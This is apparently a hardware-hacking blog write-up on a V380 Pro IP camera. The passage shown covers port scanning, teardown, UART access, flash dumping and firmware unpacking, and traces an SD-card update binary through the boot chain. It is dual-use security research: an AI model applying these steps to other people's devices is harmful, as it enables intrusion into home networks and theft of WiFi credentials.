

Whilst op-shopping in Melbourne, I found a deal I couldn't refuse — a $10 V380 Pro IP Camera. Naturally, I decided to buy it and pull it apart. What I found was a built-in update mechanism that executes arbitrary shell scripts from an SD card at boot with no authentication, running as root. All that is required is the placement of three specific files on the SD card and the camera responds with "your wish is my command". Exfiltrating the WiFi password and leaving a persistent root backdoor on the network is trivial.

Here is how it was done...


## Table of Contents

1. [Attack Path Overview](#1-attack-path-overview)
2. [Reconnaissance](#2-reconnaissance)
   - [2.1 Network connection/scanning](#21-network-connectionscanning)
   - [2.2 Port scanning](#22-port-scanning)
3. [Device Teardown](#3-device-teardown)
   - [3.1 Physical Teardown](#31-physical-teardown)
   - [3.2 Chip Identification](#32-chip-identification)
   - [3.3 UART](#33-uart)
4. [Firmware Extraction](#4-firmware-extraction)
   - [4.1 Reading the Flash](#41-reading-the-flash)
   - [4.2 Unpacking the flash](#42-unpacking-the-flash)
5. [Finding the Backdoor](#5-finding-the-backdoor)
   - [5.1 Searching for SD Card References](#51-searching-for-sd-card-references)
   - [5.2 Tracing the Boot Chain](#52-tracing-the-boot-chain)
6. [Reversing `prerun`](#6-reversing-prerun)
   - [6.1 Main function](#61-main-function)
   - [6.1.1 Main function - key conditional logic](#611-main-function---key-conditional-logic)
   - [6.2 mount_sd_check_read](#62-mount_sd_check_read)
   - [6.3 File - /mnt/sdcard/mvsound](#63-file---mntsdcardmvsound)
   - [6.4 File - /mnt/sdcard/dev_recover](#64-file---mntsdcarddev_recover)
   - [6.5 File - /mnt/sdcard/local_update.conf](#65-file---mntsdcardlocal_updateconf)
   - [6.6 was_update_patch_had_already_used](#66-was_update_patch_had_already_used)
   - [6.7 Additional Notes](#67-additional-notes)
7. [Triggering the Backdoor](#7-triggering-the-backdoor)
8. [Exploitation](#8-exploitation)
   - [8.1 Persistence](#81-persistence)
9. [The Full Attack Summary](#9-the-full-attack-summary)
10. [Post-Exploitation](#10-post-exploitation)
    - [10.1 Flash Layout](#101-flash-layout)
    - [10.2 System Info enumeration](#102-system-info-enumeration)
    - [10.3 Credentials](#103-credentials)
    - [10.4 Open Ports](#104-open-ports)
    - [10.5 Boot Sequence](#105-boot-sequence)
11. [Summary](#11-summary)
12. [Appendix](#12-appendix)
    - [12.1 Pending Concerns](#121-pending-concerns)
    - [12.2 Mitigations](#122-mitigations)

---

## 1. Attack Path Overview

By extracting the firmware from the camera's flash memory and unpacking it (explained later in this report), analysis of the boot chain revealed that a binary called `prerun` was responsible for handling firmware updates on the device.

Analysing this binary in Ghidra revealed a backdoor: the camera executes the contents of `auth_exshell.sh` from the root of the SD card if a specific set of conditions are met. These are trivially satisfied with three plain text files on the SD card.

The high-level attack path from start to finish is as follows:



---

## 2. Reconnaissance

The first thing I do with any new device (before I start an attack path) is to perform network reconnaissance. In this case I performed a WiFi and nmap scan, before touch a screwdriver. I do this to understand what the camera was exposing on the network before digging into the hardware to determine what's listening, and on what protocol. This allows me to determine what the attack surface looks like from the outside.

### 2.1 Network connection/scanning

When the camera is new, or has been reset using its reset button, it audibly repeats "Waiting for WiFi smart link configuration" using the inbuilt speaker.

If you press the reset button again, the device audibly announces "Access point establishing" and then "Access point established".

Scanning for local networks reveals a network named after the camera's device number — in this case `MV37744053`:


After connecting to `MV37744053`, the laptop's WiFi interface was assigned the IP Address `192.168.1.20`:

### 2.2 Port scanning

Now that a network connection had been established with the camera, the next aim was to scan it with NMAP.


Scanning the camera at `192.168.1.1` (with it acting as the gateway) reveals the following ports:


| Port | Process | Notes |
|------|---------|-------|
| 23 | `telnetd` | Authenticated |
| 554 | `recorder` | RTSP video stream |
| 5040 | `as9nvserver` | Camera management / config protocol |
| 5050 | `as9nvserver` | Video stream |
| 7050 | `as9nvserver` | Verify port |
| 8800 | `recorder` | Mobile client |

Of the ports above, the only one that is likely to provide immediate shell access is `telnetd`.

This service is listening on port `23` and upon connection, revealed that it is authenticated. As the objective of this post is unauthenticated access, this telnet service was ignored.

Without diving deeper into the other ports, the focus shifted to tearing the camera down and extracting its firmware for the purpose of identifying exploitable vulnerabilities that provide unauthenticated access to the device.

---

## 3. Device Teardown

The following section details how to physically tear the device down and outlines key chips of interest and means of firmware extraction and interactive access.

### 3.1 Physical Teardown

To tear the V380 PRO down, I started by removing a single Phillips screw, exposing the main PCB.


>Note - The wires coming out of the camera are for the device's UART console (discussed later in this report).


The main PCB can be removed from the housing by carefully disconnecting each of the connectors from the board.

### 3.2 Chip Identification

With the main PCB exposed, I went through and identified every IC on it. The chip table below covers everything of interest that was found publicly when performing searches for each chip's name.

The front of the main camera PCB is outlined below:


The back of the main camera PCB is outlined below:


The chips highlighted above are detailed below:

<table>
  <thead>
    <tr>
      <th>Chip</th>
      <th>Photo</th>
      <th>Markings</th>
      <th>Pinout</th>
      <th>Description</th>
      <th>Datasheet</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><strong>Anyka AK3918EN080</strong><br/>Main SoC<br/>ARMv5TEJ · LQFP-80</td>
      <td></td>
      <td><code>AK3918EN080</code><br/><code>SA1A24116</code></td>
      <td><em>Not publicly documented</em></td>
      <td>ARM926EJ-S (ARMv5TEJ). Anyka AK3918E — cloud-connected IP camera SoC. Runs Linux 3.4.35, built May 2016. No Secure Boot or partition integrity verification.</td>
      <td><a href="/assets/docs/v380-pro-back-door/AK3918EN080_datasheet.pdf">AK3918EN080 (PDF)</a></td>
    </tr>
    <tr>
      <td><strong>GigaDevice GD25Q64CSIG</strong><br/>SPI NOR Flash<br/>8 MB · SOP-8</td>
      <td></td>
      <td><code>G BH1621</code><br/><code>25Q64CSIG</code><br/><code>POW221</code></td>
      <td></td>
      <td>64Mbit (8 MB) SPI NOR flash. Holds all firmware partitions: kernel, four squashfs volumes, and the JFFS2 config partition. Read directly with a CH341A programmer at 3.3 V.</td>
      <td><a href="/assets/docs/v380-pro-back-door/GD25Q64C-datasheet.pdf">GD25Q64C (PDF)</a></td>
    </tr>
    <tr>
      <td><strong>Atmel AT24C02BN</strong><br/>EEPROM<br/>2 Kbit · SOIC-8</td>
      <td></td>
      <td><code>ATMEL 602</code><br/><code>24C02BN</code><br/><code>SU27 D</code></td>
      <td><em>Standard SOIC-8<br/>A0·A1·A2·GND<br/>SDA·SCL·WP·VCC</em></td>
      <td>2Kbit (256-byte) I2C EEPROM. Likely used for persistent MAC address or device identity storage independent of the main flash.</td>
      <td><a href="/assets/docs/v380-pro-back-door/AT24C02B-datasheet.pdf">AT24C02B (PDF)</a></td>
    </tr>
    <tr>
      <td><strong>CHMC S2F</strong><br/>Support IC<br/>SOP-8</td>
      <td></td>
      <td><code>CHMC S2F</code><br/><code>06208</code></td>
      <td><em>Not publicly documented</em></td>
      <td>SOP-8 package. Exact function unconfirmed — likely a voltage regulator or level shifter supporting the SoC power rails.</td>
      <td><em>No public datasheet</em></td>
    </tr>
    <tr>
      <td><strong>CHMC ULN2803F</strong><br/>Motor Driver<br/>SOP-18</td>
      <td></td>
      <td><code>CHMC S6301</code><br/><code>ULN2803F</code></td>
      <td></td>
      <td>8-channel Darlington transistor array. Drives the PTZ stepper motors — confirmed by the <code>mv_motor_driver</code> kernel module. 50 V, 500 mA per channel with integrated flyback diodes.</td>
      <td><a href="/assets/docs/v380-pro-back-door/ULN2803F-datasheet.pdf">ULN2803A (PDF)</a></td>
    </tr>
    <tr>
      <td><strong>Realtek RTL8188EUS</strong><br/>WiFi<br/>2.4 GHz 802.11n · QFN-48</td>
      <td></td>
      <td>—</td>
      <td><em>Not included — flagged as Realtek internal proprietary information. Pinout can be found via public community sources online.</em></td>
      <td>RTL8188EUS single-chip 802.11n USB WiFi. Driven by the <code>8188eu</code> kernel module. Handles all wireless connectivity for the camera.</td>
      <td><em>Not included — flagged as Realtek internal proprietary information. Datasheet can be found via public community sources online.</em></td>
    </tr>
  </tbody>
</table>

Two key items of interest stand out from the table and photos above.

1. The SPI NOR flash — `GD25Q64CSIG` — the target for firmware extraction.
2. The two test pads adjacent to the `Anyka AK3918EN080` SOC.

### 3.3 UART

Connecting a USB-to-serial adapter to those two pads exposes the device's boot logs over UART.

The two UART pins are:


With the UART pins identified, a connection to the device's UART interface was made with the following command (with the above pins connected to a USB-to-serial adapter):

```bash
sudo minicom -D /dev/ttyACM0 -b 115200
```

<details markdown="1">
<summary>UART Logs</summary>

```text
Welcome to minicom 2.8

OPTIONS: I18n 
Port /dev/ttyACM0, 17:29:00

Press CTRL-A Z for help on special keys


Aimer39 spiboot V1.1.00 
asic clk:60000000, pre-scaler=1 (wanted 20Mhz, got 15Mhz)
SPIFLASH_PAGE_SIZE:256
the manufacture id is 001740c8
spi param: id=001740ef, total_size=8388608, page_size=256, program_size=16.
erase_size=4096, clock=25000000, flag=0, protect_mask=0.
asic clk:60000000, pre-scaler=1 (wanted 25Mhz, got 15Mhz)
SPIFLASH_PAGE_SIZE:256
file cnt:2
Read file BIOS
load bios ......
start:560
file len:2113608
ld addr:0x82008000
Load bios from spiflash successfuly!
Uncompressing Linux... done, booting the kernel.
Anyka Linux Kernel Version: 1.1.01
Booting Linux on physical CPU 0
Linux version 3.4.35 (chubby@chubby-VirtualBox) (gcc version 4.4.1 (Sourcery G++ Lite 2009q3-67) ) #17 Fri May 6 16:07:04 HKT 2016
CPU: ARM926EJ-S [41069265] revision 5 (ARMv5TEJ), cr=00053177
CPU: VIVT data cache, VIVT instruction cache
Machine: Cloud39E_AK3918E+H42_V1.0.2
Memory policy: ECC disabled, Data cache writeback
ANYKA CPU AK3916 (ID 0x20140100)
Built 1 zonelists in Zone order, mobility grouping on.  Total pages: 10922
Kernel command line: root=/dev/mtdblock1 ro rootfstype=squashfs init=/sbin/init mem=64M console=ttySAK0,115200
PID hash table entries: 256 (order: -2, 1024 bytes)
Dentry cache hash table entries: 8192 (order: 3, 32768 bytes)
Inode-cache hash table entries: 4096 (order: 2, 16384 bytes)
Memory: 43MB = 43MB total
Memory: 39616k/39616k available, 4416k reserved, 0K highmem
Virtual kernel memory layout:
    vector  : 0xffff0000 - 0xffff1000   (   4 kB)
    fixmap  : 0xfff00000 - 0xfffe0000   ( 896 kB)
    vmalloc : 0xc3000000 - 0xff000000   ( 960 MB)
    lowmem  : 0xc0000000 - 0xc2b00000   (  43 MB)
    modules : 0xbf000000 - 0xc0000000   (  16 MB)
      .text : 0xc0008000 - 0xc0383000   (3564 kB)
      .init : 0xc0383000 - 0xc039c000   ( 100 kB)
      .data : 0xc039c000 - 0xc03c11a0   ( 149 kB)
       .bss : 0xc03c11c4 - 0xc03de77c   ( 118 kB)
SLUB: Genslabs=13, HWalign=32, Order=0-3, MinObjects=0, CPUs=1, Nodes=1
NR_IRQS:95
sched_clock: 32 bits at 100 Hz, resolution 10000000ns, wraps every 4294967286ms
AK39 console driver initial
console [ttySAK0] enabled
Calibrating delay loop... 199.06 BogoMIPS (lpj=995328)
pid_max: default: 32768 minimum: 301
Mount-cache hash table entries: 512
CPU: Testing write buffer coherency: ok
Setting up static identity map for 0x817bf108 - 0x817bf160
devtmpfs: initialized
NET: Registered protocol family 16
On-chip L2 memory initialized
AK39 clocks: CPU 400MHz, MEM 200MHz, ASIC 100MHz
Anyka platform share gpio locks initialize.
bio: create slab <bio-0> at 0
SCSI subsystem initialized
*********akfha_char init
akfha Char Device Initialize Successed!
usbcore: registered new interface driver usbfs
usbcore: registered new interface driver hub
usbcore: registered new device driver usb
i2c-ak39 i2c-ak39: i2c-0: AK39 I2C adapter
Linux video capture interface: v2.00
cfg80211: Calling CRDA to update world regulatory domain
NET: Registered protocol family 2
IP route cache hash table entries: 1024 (order: 0, 4096 bytes)
TCP established hash table entries: 2048 (order: 2, 16384 bytes)
TCP bind hash table entries: 2048 (order: 1, 8192 bytes)
TCP: Hash tables configured (established 2048 bind 2048)
TCP: reno registered
UDP hash table entries: 256 (order: 0, 4096 bytes)
UDP-Lite hash table entries: 256 (order: 0, 4096 bytes)
NET: Registered protocol family 1
squashfs: version 4.0 (2009/01/31) Phillip Lougher
exFAT: Version 1.2.9
jffs2: version 2.2. (C) 2001-2006 Red Hat, Inc.
msgmni has been set to 77
io scheduler noop registered
io scheduler cfq registered (default)
AK39xx uart driver init, (c) 2013 ANYKA
ak39-uart.0: ttySAK0 at MMIO 0x20130000 (irq = 10) is a AK39
ion: failed to create debug files.
brd: module loaded
loop: module loaded
AK Motor Driver (c) 2013 ANYKA
akgpio driver initialize.
akpcm_init
ak39_codec_probe enter.
akpcm_probe
akpcm initialize OK!
akpcm_probe ok.
akisp_init
Start to init Anyka SPI Flash...
AK SPI Driver, (c) 2012 ANYKA
akpi regs: SPICON:00000152, SPISTA:00000015, SPIINT:00000000.
ak-spi ak-spi: master is unqueued, this is deprecated
ak_spi setup the master.
pre-scaler=2 (wanted 20Mhz, got 16Mhz)
ak spiflash probe enter.
pre-scaler=2 (wanted 20Mhz, got 16Mhz)
ak_spi_setupxfer,con:00000252.
akspi flash ID: 0x00c84017
gd25q64, info->sector_size = 65536, info->n_sectors = 128
akspi flash VERSION: 0xff
ak-spiflash spi0.0: gd25q64 (8192 Kbytes)
FHA:fhalib V1.0.25
FHA:FHA_S SPIFlash_Init: BinPageStartblock:35,
FHA:FHA_S SPIFlash_Init: BinPageStart:560,
FHA:FHA_S G_P_S:558 
nr_parts=0x5
mtd_part[0]:
name = A
size = 0x1e0000
offset = 0x260000
mask_flags = 0x0

mtd_part[1]:
name = B
size = 0x100000
offset = 0x440000
mask_flags = 0x0

mtd_part[2]:
name = C
size = 0x140000
offset = 0x540000
mask_flags = 0x0

mtd_part[3]:
name = D
size = 0x60000
offset = 0x680000
mask_flags = 0x0

mtd_part[4]:
name = E
size = 0x120000
offset = 0x6e0000
mask_flags = 0x0

Creating 5 MTD partitions on "spi0.0":
0x000000260000-0x000000440000 : "A"
0x000000440000-0x000000540000 : "B"
0x000000540000-0x000000680000 : "C"
0x000000680000-0x0000006e0000 : "D"
0x0000006e0000-0x000000800000 : "E"
Init AK SPI Flash finish.
akspi master initialize success, use for DMA mode.
usbcore: registered new interface driver zd1201
Initializing USB Mass Storage driver...
usbcore: registered new interface driver usb-storage
USB Mass Storage support registered.
ak-rtc ak-rtc: rtc core: registered ak-rtc as rtc0
i2c /dev entries driver
AK MCI Driver (c) 2010 ANYKA
akmci ak_sdio: pdev->name:ak_sdio request gpio irq ret = 0, irq=78
akmci ak_sdio: Mci Interface driver.mmc0. using l2dma, hw IRQ. detect mode:GPIO detect.
TCP: cubic registered
NET: Registered protocol family 17
lib80211: common routines for IEEE802.11 drivers
ak-rtc ak-rtc: hctosys: invalid date/time
VFS: Mounted root (squashfs filesystem) readonly on device 31:1.
devtmpfs: mounted
Freeing init memory: 100K
mmc0: host does not support reading read-only switch. assuming write-enable.
mmc0: new SDXC card at address b368
mmcblk0: mmc0:b368 SDABC 117 GiB 
 mmcblk0:
mount all file system...
start telnet......
starting mdev...
**************************
    Love Linux ! ! ! 
**************************
200+0 records in
200+0 records out
102400 bytes (100.0KB) copied, 0.026381 seconds, 3.7MB/s

V380E login:
=== play type : 0 ===
--AudioFilter Version V1.5.02_svn4716, type:3--
## ChipIdval = 0x20140100
## MSG: insamplerate:8000, outSamplerate:8012, outSrindex:0
## MSG: use arithmetic_1 resample
## MSG: resample ratio(i/o) = 0x7fce(Q15), inter_equation=0
ok open the sd filter: 0x1c1e8!
dac actual rate:8012, desr rate:8000.
## realloc len=2020
Play Finished
--leave AudioFilter Version V1.5.02_svn4716, type:3--
aksensor_module_init
h42_set_poweron
sc1045_set_poweron
sc1035_set_poweron
sc1035_get_id fail
sc1145_set_poweron
```

</details>

Interestingly, the RX pin on the processor appears to be disabled — three separate USB-to-UART adapters all failed to send data to the target using the pin connected to the camera's RX line.

---

## 4. Firmware Extraction

### 4.1 Reading the Flash

With the `GigaDevice GD25Q64CSIG` SPI flash memory identified, the next step was to desolder it from the board so that its contents could be read (using an appropriate chip reader):


Once desoldered it was seated in a TSOP-8 caddy that had been soldered to the back of a CH341A programmer:


The programmer was then connected to a linux host and the flash memory was probed with `flashrom` using the CH341A programmer to confirm auto-detection worked before committing to a full read:

```bash
sudo flashrom -p ch341a_spi
```

```
Found GigaDevice flash chip "GD25Q64(B)" (8192 kB, SPI) on ch341a_spi.
```

With the CH341A programmer identifying the `GD25Q64CSIG` cleanly, I then read the flash memory twice and compared the hashes to confirm a clean, consistent dump:

```bash
sudo flashrom -p ch341a_spi -c "GD25Q64(B)" -r firmware.bin
sudo flashrom -p ch341a_spi -c "GD25Q64(B)" -r firmware2.bin
md5sum firmware.bin firmware2.bin
aac3185f99dcf3ee5556dfa3c20790e4  firmware.bin
aac3185f99dcf3ee5556dfa3c20790e4  firmware2.bin
```


The matching MD5 hashes confirm a clean firmware dump. With that verified, `binwalk` was run to understand the partition layout and extract the contents of the bin file extracted from the flash memory:

### 4.2 Unpacking the flash 

With the firmware extracted from the flash using the `CH341A`, the bin file outputted by flashrom was extracted using binwalk.

```bash
binwalk -e firmware.bin
```


<details markdown="1">
<summary>complete binwalk output</summary>

```
user@computer:~/workspace/v380pro/old$ binwalk -e firmware2.bin 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root/as9updatednsip -> /home/user/workspace/v380pro/old/mvs/apps/as9updatednsip; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root/as9nvserver -> /home/user/workspace/v380pro/old/mvs/apps/as9nvserver; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root/as9ipcwatchdog -> /home/user/workspace/v380pro/old/mvs/apps/as9ipcwatchdog; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root/asnvdvrclientdemo -> /home/user/workspace/v380pro/old/mvs/apps/asnvdvrclientdemo; changing link target to /dev/null for security purposes.
14556         0x38DC          JFFS2 filesystem, little endian
143360        0x23000         Linux kernel ARM boot executable zImage (little-endian)
148293        0x24345         Certificate in DER format (x509 v3), header length: 4, sequence length: 4612

WARNING: Extractor.execute failed to run external extractor 'lzop -f -d '%e'': [Errno 2] No such file or directory: 'lzop', 'lzop -f -d '%e'' might not be installed correctly
150144        0x24A80         LZO compressed data

WARNING: Extractor.execute failed to run external extractor 'lzop -f -d '%e'': [Errno 2] No such file or directory: 'lzop', 'lzop -f -d '%e'' might not be installed correctly
150507        0x24BEB         LZO compressed data
814344        0xC6D08         Certificate in DER format (x509 v3), header length: 4, sequence length: 514
1722303       0x1A47BF        Linux kernel version 3.4.35
2030476       0x1EFB8C        xz compressed data
2255075       0x2268E3        mcrypt 2.5 encrypted data, algorithm: "\", keysize: 111 bytes, mode: "p",
2490368       0x260000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 1930630 bytes, 231 inodes, blocksize: 131072 bytes, created: 2016-07-25 04:07:45
4456448       0x440000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 960586 bytes, 171 inodes, blocksize: 131072 bytes, created: 2016-07-12 02:33:40
5505024       0x540000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 709130 bytes, 33 inodes, blocksize: 131072 bytes, created: 2016-08-26 07:34:36
6815744       0x680000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 277219 bytes, 5 inodes, blocksize: 131072 bytes, created: 2016-07-25 04:07:49

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-0/as9updatednsip -> /home/user/workspace/v380pro/old/mvs/apps/as9updatednsip; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-0/as9nvserver -> /home/user/workspace/v380pro/old/mvs/apps/as9nvserver; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-0/as9ipcwatchdog -> /home/user/workspace/v380pro/old/mvs/apps/as9ipcwatchdog; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-0/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-0/asnvdvrclientdemo -> /home/user/workspace/v380pro/old/mvs/apps/asnvdvrclientdemo; changing link target to /dev/null for security purposes.
7208960       0x6E0000        JFFS2 filesystem, little endian

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-1/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.
7282688       0x6F2000        JFFS2 filesystem, little endian

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-2/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.
7298696       0x6F5E88        JFFS2 filesystem, little endian

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-3/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.
7385088       0x70B000        JFFS2 filesystem, little endian
7400228       0x70EB24        Unix path: /var/run/hostapd

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-4/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.
7401472       0x70F000        JFFS2 filesystem, little endian
7579716       0x73A844        Executable script, shebang: "/bin/sh"
7580367       0x73AACF        Unix path: /etc/bak/reset/APname_preset.sh

WARNING: Symlink points outside of the extraction directory: /home/user/workspace/v380pro/old/_firmware2.bin.extracted/jffs2-root-5/recorder -> /home/user/workspace/v380pro/old/mvs/apps/recorder; changing link target to /dev/null for security purposes.
7580808       0x73AC88        JFFS2 filesystem, little endian
8174608       0x7CBC10        Unix path: /var/run/hostapd
8176940       0x7CC52C        JFFS2 filesystem, little endian
8210960       0x7D4A10        JFFS2 filesystem, little endian
8214700       0x7D58AC        JFFS2 filesystem, little endian
8310784       0x7ED000        JFFS2 filesystem, little endian
8327724       0x7F122C        Unix path: /var/run/hostapd
8330584       0x7F1D58        JFFS2 filesystem, little endian
8331276       0x7F200C        JFFS2 filesystem, little endian
8369496       0x7FB558        Unix path: /var/run/hostapd
8371600       0x7FBD90        JFFS2 filesystem, little endian
8375248       0x7FCBD0        JFFS2 filesystem, little endian
8387968       0x7FFD80        JFFS2 filesystem, little endian
```

</details>

<details markdown="1">
<summary>high-level binwalk output</summary>

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
14556         0x38DC          JFFS2 filesystem, little endian
143360        0x23000         Linux kernel ARM boot executable zImage (little-endian)
2490368       0x260000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 1930630 bytes, 231 inodes, blocksize: 131072 bytes, created: 2016-07-25 04:07:45
4456448       0x440000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 960586 bytes, 171 inodes, blocksize: 131072 bytes, created: 2016-07-12 02:33:40
5505024       0x540000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 709130 bytes, 33 inodes, blocksize: 131072 bytes, created: 2016-08-26 07:34:36
6815744       0x680000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 277219 bytes, 5 inodes, blocksize: 131072 bytes, created: 2016-07-25 04:07:49
7208960       0x6E0000        JFFS2 filesystem, little endian
```

</details>


As noted in the output above, `binwalk` handled the squashfs partitions cleanly but failed on the JFFS2 partitions and as a result I installed `jefferson`. After installing it, the JFFS2 partition at `0x6E0000` was extracted manually and moved back into the binwalk output directory to keep everything together:

```bash
jefferson -d jffs2-output/ _firmware.bin.extracted/6E0000.jffs2
mv jffs2-output/ ./_firmware.bin.extracted/
```


The output of the `jefferson` command produced a directory of config files, shell scripts, and binaries — including `prerun`, `vg_boot.sh`, and a collection of `.ini` files that turned out to hold a lot of interesting data.


---

## 5. Finding the Backdoor

### 5.1 Searching for SD Card References

With the full filesystem extracted, I wanted to understand what update mechanisms existed and whether any of them touched the SD card slot. The camera has a visible SD card reader on the side, and update-via-SD is a common pattern on these budget IoT devices making it worth checking whether this mechanism was present on this device.

The approach was to run `strings` across the entire extracted filesystem and filter for anything that mentioned both SD card and update paths. These searches were run progressively — first for `sdcard`, then piping through `update`, with a final filter added for `jffs2-output` (once it became clear that the interesting results were all coming from the JFFS2 partition):

```bash
find _firmware.bin.extracted/ -type f -exec strings -f {} \; | grep sdcard | grep update | grep jffs2-output
```

```
_firmware.bin.extracted/jffs2-output/prerun: /mnt/sdcard/update_record
_firmware.bin.extracted/jffs2-output/prerun: /mnt/sdcard/local_update.conf
_firmware.bin.extracted/jffs2-output/prerun: /mnt/sdcard/updatepatch
_firmware.bin.extracted/jffs2-output/prerun: sdcard update finished!
_firmware.bin.extracted/jffs2-output/prerun: sdcard update failed!!!!
```


As noted in the output above, everything interesting was coming from a single binary: `prerun`. 

```bash
file prerun
prerun: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 2.6.16, stripped
```

The output of the file command run against `prerun` confirms it is a stripped ARM ELF. Before reverse engineering it to understand how it handles the devices SD card update process, I wanted to know where it sits in the boot chain and specifically, whether it runs on every boot or only on demand.

### 5.2 Tracing the Boot Chain

With the suspected update binary identified, the next step was to ensure that it was run on boot and not triggered on demand.

Searching for references to `prerun` across the extracted filesystem confirmed it was called by `vg_boot.sh`:

```bash
find _firmware.bin.extracted/ -type f -exec strings -f {} \; | grep prerun | grep nvipcstart.sh
```


```
_firmware.bin.extracted/jffs2-output/vg_boot.sh: cp /mnt/mtd/prerun /tmp/prerun -af
_firmware.bin.extracted/jffs2-output/vg_boot.sh: chmod +x /tmp/prerun
_firmware.bin.extracted/jffs2-output/vg_boot.sh: /tmp/prerun
```

The following section demonstrates how `prerun` is chained all the way back to `init` (the full boot chain):

**`/etc/inittab`**:
```sh
::sysinit:/etc/init.d/rcS

ttySAK0::respawn:/sbin/getty -L ttySAK0 115200 vt100

::restart:/sbin/init
::ctrlaltdel:/sbin/reboot
::shutdown:/bin/umount -a -r
::shutdown:/sbin/swapoff -a
```


The `sysinit` action calls `rcS` on every boot. From there:

**`/etc/init.d/rcS`**:
```sh
#!/bin/sh
echo "start telnet......"
telnetd &
...
/etc/init.d/rc.local
```


**`/etc/init.d/rc.local`**:
```sh
#!/bin/sh
/bin/mount -t jffs2 /dev/mtdblock5 /mnt/mtd
...
/mnt/mtd/vg_boot.sh &
```


**`/mnt/mtd/vg_boot.sh`**:
```sh
#!/bin/sh
cp /mnt/mtd/prerun /tmp/prerun -af
chmod +x /tmp/prerun
/tmp/prerun
...
/mnt/mtd/nvipcstart.sh
```


